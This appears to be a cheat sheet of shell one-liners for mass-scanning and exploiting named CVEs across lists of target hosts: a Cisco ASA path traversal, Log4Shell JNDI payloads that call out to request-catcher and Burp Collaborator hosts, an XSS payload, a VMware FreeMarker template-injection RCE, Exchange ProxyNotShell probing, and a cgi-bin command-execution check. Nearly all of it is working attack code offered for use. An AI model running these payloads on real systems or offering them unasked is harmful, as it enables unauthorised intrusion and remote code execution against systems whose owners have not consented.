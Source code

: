 ### **CVE-2020-3452:**

```
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt

```

### **CVE-2021-44228:**

```
cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done

```

```
cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt

```

### **CVE-2022-0378:**

```
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

```

### **CVE-2022-22954:**

```
cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done

```

### **CVE-2022-41040:**

```
ffuf -w "urls.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r

```

---

## **RCE:**

```
cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent

```
